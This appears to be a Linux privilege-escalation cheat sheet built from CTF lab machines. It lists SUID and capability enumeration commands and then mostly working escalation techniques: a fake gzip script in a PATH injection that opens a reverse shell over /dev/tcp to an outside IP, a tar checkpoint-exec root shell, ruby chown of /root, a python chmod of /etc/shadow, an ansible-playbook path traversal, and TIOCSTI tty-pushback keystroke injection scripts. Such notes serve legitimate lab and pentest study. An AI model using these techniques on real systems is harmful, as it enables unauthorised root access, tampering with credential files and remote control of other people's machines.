






#### Finding SUID 
```
find / -type f -perm /4000 2>/dev/null
```
or 
```
find / -type f -perm -u=s 2>/dev/null
```


#### Finding GUID 
```
find / -type f -perm /2000 2>/dev/null
```
or 
```
find / -type f -perm -g=s 2>/dev/null
```

#### Finding Capabilities
```
getcap -r / 2>/dev/null
```

#### Find running TCP connections

```bash
netstat -tunlpn
```

res:-
```bash
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -                   
udp6       0      0 ::1:161                 :::*                                -                   

```
#### Path Injection With Sudo nopasswd

```
m4lwhere@previse:/tmp$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

```
m4lwhere@previse:/tmp$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

```
m4lwhere@previse:/tmp$ cat gzip
#!/bin/bash

bash -c "sh -i >& /dev/tcp/10.10.14.14/9002 0>&1"
```

```
m4lwhere@previse:/tmp$ chmod +x gzip
```

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
```

```
m4lwhere@previse:/tmp$ sudo -u root /opt/scripts/access_backup.sh
```


####  Privesc with sudo /bin/tar

ref:- https://tryhackme.com/room/cowboyhacker

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

gtfobin:- https://gtfobins.github.io/gtfobins/tar/#sudo

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
```


#### with capabilities ruby 

ref:- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown

```
/usr/local/bin/ruby = cap_chown+ep
```


pass id of user which is 1002 and location and get access to that file
```ruby
ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root")'
```

```bash
george@empline:/root$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root/root.txt")'
george@empline:/root$ cat root.txt 
74fea7cd0556e9c6f22e6f54bc68f5d5
george@empline:/root$ 
```

python:-
```python
python -c 'import os;os.chmod("/etc/shadow",0666)
```

#### Privesc with sudo Ansible 

```bash
sudo -l
```



```bash
nano /tmp/a.yml
```

```bash
chmod 777 /tmp/a.yml
```

paste below yml

```yml
---
- hosts: localhost
  tasks:
    - name: Run id                                    
      command: id
      register: id_output  # Register the output of the command

    - name: Display the output of 'id'
      debug:
        var: id_output.stdout  # Print the captured output

```


```bash
sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/a.yml
```



ref:-
- https://tryhackme.com/r/room/backtrack
- https://youtu.be/FPD3BFv_f_Y?si=Jwof3PkTrzcBqBQY&t=2343

#### Privesc with ttypushback

```bash
./pspy64
```



```bash
nano /dev/shm/a.py
```

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in sys.argv[1] + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

or 

```python
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'ls -la /root >/dev/shm/a.txt;chmod 777 a.txt' + '\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```


wait for 1-2 min for cron

```bash
ls -la
```
```bash
cat a.txt
```




ref:-
- https://tryhackme.com/r/room/backtrack
- https://www.errno.fr/TTYPushback.html
- https://youtu.be/FPD3BFv_f_Y?si=j0MjXQytaRM2WRQe&t=5466